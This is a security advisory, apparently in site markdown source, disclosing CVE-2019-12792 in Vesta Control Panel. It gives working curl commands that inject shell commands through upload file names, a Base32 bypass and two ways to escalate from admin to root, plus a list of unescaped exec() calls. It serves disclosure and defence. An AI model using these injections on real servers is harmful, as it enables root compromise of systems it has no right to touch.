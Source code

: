 ```yaml
---
title: '[CVE-2019-12792] Vesta Control Panel 0.9.8-24 — Privilege escalation in the upload handler'
description: Privilege escalation to root can be achieved by a regular user via the file upload handler exploiting an insufficient shell escaping mechanism.
tags: [Vesta Control Panel, Privilege escalation, upload]
advisory:
  discovered: 2019-03-15
  product: '[Vesta Control Panel](https://vestacp.com/)'
  versions:
    - 0.9.8-24
  cve: CVE-2019-12792
---
```


## Abstract

The insufficient shell escaping mechanism used during the invocation of the `exec` PHP function allows a registered user to run arbitrary system commands as the `admin` user, to whom VestaCP grants full access. A malicious registered user can thus escalate its privileges up to `root` by submitting a POST request to the web application.

[HestiaCP](https://www.hestiacp.com/) (an actively maintained fork of VestaCP) version 1.0.4 is also vulnerable but a fix has been promptly deployed in version 1.0.5.

## Details

The PHP script reachable at `/upload/UploadHandler.php` naively uses `'...'` to shell-escape the user input (instead of using `escapeshellarg`):

```php
exec (VESTA_CMD . "v-copy-fs-file ". USERNAME ." {$uploaded_file} '{$file_path}'", $output, $return_var);
```

The `$file_path` variable is controlled by the user as it corresponds to the name of the file being uploaded. By crafting a proper file name it is possible to escape the single quotes and *blindly* run additional commands as the `admin` user (the one that runs the web server in VestaCP).

For example, the following `curl` invocation uses the `sleep` command to prove the RCE success:

```console
$ PHPSESSID=... # grab it from an authenticated regular user session
$ time curl -sk -o /dev/null https://target.com:8083/upload/ \
    -b "PHPSESSID=$PHPSESSID" \
    -F "files=@/dev/null;filename=\"';sleep 5;#\""

real    0m5.097s
user    0m0.032s
sys     0m0.004s
```

Since the file name is filtered through the `basename` PHP function, the payload cannot contain `/`. Follows a more general solution that allows to execute arbitrary commands by using the Base32 encoding:

```console
$ COMMAND='[ -w ~admin/.bashrc ] && sleep 5'
$ PAYLOAD="$(echo "$COMMAND" | base32 -w0)"
$ time curl -sk -o /dev/null https://target.com:8083/upload/ \
    -b "PHPSESSID=$PHPSESSID" \
    -F "files=@/dev/null;filename=\"';echo $PAYLOAD | base32 -d | sh;#\""

real    0m5.087s
user    0m0.028s
sys     0m0.000s
```

The above also proves that is possible to write files in the `admin` home directory.

### From admin to root access

The `admin` user ultimately has full access to the target machine, yet VestaCP seems to make it hard for it to run superuser commands. For completeness, follows two possible ways to accomplish that.

#### Misusing the `v-start-service` command

The `service` system command provides a way to execute arbitrary executables and not only init scripts[^service]. Since `v-start-service` is a merely wrapper around `service`, it is possible to exploit it to run arbitrary executables as `root`.

Set the `COMMAND` variable as follows:

```console
$ COMMAND='
    echo "id >/usr/local/vesta/web/proof" >/tmp/x
    chmod +x /tmp/x
    sudo /usr/local/vesta/bin/v-start-service ../../tmp/x'
```

Run the remaining commands as above, then check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

[^service]: See the [GTFOBins entry](https://gtfobins.github.io/gtfobins/service/).

#### Using cron

One simple way for the `admin` user to legitimately execute `root` commands is to replace the `/etc/crontab` file and restart the cron daemon using the `v-change-sys-service-config` VestaCP utility. Set the `COMMAND` variable as follows:

```console
$ COMMAND='
    echo "* * * * * root id >/usr/local/vesta/web/proof" >/tmp/x
    sudo /usr/local/vesta/bin/v-change-sys-service-config /tmp/x cron yes'
```

Run the remaining commands as above, then after one minute check that the proof file is created in the web server root:

```console
$ curl -k https://target.com:8083/proof
uid=0(root) gid=0(root) groups=0(root)
```

## Other instances of similar vulnerabilities

Several other instances of the same or similar problems have been found in the VestaCP source code. The following list[^git-tree] is a best-effort attempt to enumerate such instances, they are not tested and often are not exploitable in practice or not interesting since only the `admin` user can reach the code, but should nevertheless be fixed[^fixed]:

```php
// /usr/local/vesta/web/edit/mail/index.php:75
exec (VESTA_CMD."v-list-mail-account-autoreply ".$user." '".$v_domain."' '".$v_account."' json", $output, $return_var);

// /usr/local/vesta/web/edit/mail/index.php:231
exec (VESTA_CMD."v-delete-mail-account-alias ".$v_username." ".$v_domain." ".$v_account." '".$alias."'", $output, $return_var);

// /usr/local/vesta/web/edit/mail/index.php:257
exec (VESTA_CMD."v-delete-mail-account-forward ".$v_username." ".$v_domain." ".$v_account." '".$forward."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:342
exec (VESTA_CMD."v-add-backup-host '". $v_backup_type ."' '". $v_backup_host ."' '". $v_backup_username ."' '". $v_backup_password ."' '". $v_backup_bpath ."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:359
exec (VESTA_CMD."v-delete-backup-host '". $v_backup_type ."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:367
exec (VESTA_CMD."v-add-backup-host '". $v_backup_type ."' '". $v_backup_host ."' '". $v_backup_username ."' '". $v_backup_password ."' '". $v_backup_bpath ."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:389
exec (VESTA_CMD."v-add-backup-host '". $v_backup_type ."' '". $v_backup_host ."' '". $v_backup_username ."' '". $v_backup_password ."' '". $v_backup_bpath ."'", $output, $return_var);

// /usr/local/vesta/web/edit/server/index.php:406
exec (VESTA_CMD."v-delete-backup-host '". $v_backup_type ."'", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:39
exec (VESTA_CMD."v-list-web-domain-ssl ".$user." '".$v_domain."' json", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:142
exec (VESTA_CMD."v-list-dns-domain ".$v_username." '".$v_alias."' json", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:145
exec (VESTA_CMD."v-change-dns-domain-ip ".$v_username." '".$v_alias."' ".$v_ip, $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:176
exec (VESTA_CMD."v-delete-web-domain-alias ".$v_username." ".$v_domain." '".$alias."' 'no'", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:184
exec (VESTA_CMD."v-delete-dns-on-web-alias ".$v_username." ".$v_domain." '".$alias."' 'no'", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:317
exec (VESTA_CMD."v-list-web-domain-ssl ".$user." '".$v_domain."' json", $output, $return_var);

// /usr/local/vesta/web/edit/web/index.php:370
exec (VESTA_CMD."v-add-letsencrypt-domain ".$user." ".$v_domain." '".$l_aliases."' 'no'", $output, $return_var);

// /usr/local/vesta/web/reset/mail/index.php:135
exec (VESTA_CMD."v-get-mail-account-value '".$v_user."' ".$v_domain." ".$v_account." 'md5'", $output, $return_var);

// /usr/local/vesta/web/reset/mail/index.php:154
exec (VESTA_CMD."v-change-mail-account-password '".$v_user."' ".$v_domain." ".$v_account." ".$v_new_password, $output, $return_var);
```

[^git-tree]: Locations refer to the Git commit [e1fb811caf73e5d8de49e3d2a0098a1afb0f647f](https://github.com/serghey-rodin/vesta/tree/e1fb811caf73e5d8de49e3d2a0098a1afb0f647f).

[^fixed]: Some of them (and others) are fixed in a subsequent [pull request](https://github.com/serghey-rodin/vesta/pull/1865/commits/0831a198b86a4760e83c0eaec78d84bab7098e6c).

## Timeline

2019-05-28
: Disclosed to the VestaCP team.

2019-06-10
: MITRE assigns [{{ page.advisory.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.advisory.cve }}) to this vulnerability.

2019-07-29
: Final warning via [GitHub issue](https://github.com/serghey-rodin/vesta/issues/1921) since emails have been ignored.

2019-07-30
: The VestaCP author asks one more week to fix the issue and publish a new release.

2019-08-07
: The VestaCP team [fixes](https://github.com/serghey-rodin/vesta/commit/b17b4b205df0c01dada54d9684cfaa94b924064a) the vulnerability.

2019-08-15
: The VestaCP team [releases](https://github.com/serghey-rodin/vesta/commit/868dd8b146e76ea3c83c26855ae2f60b22d989d2) version 0.9.8-25.
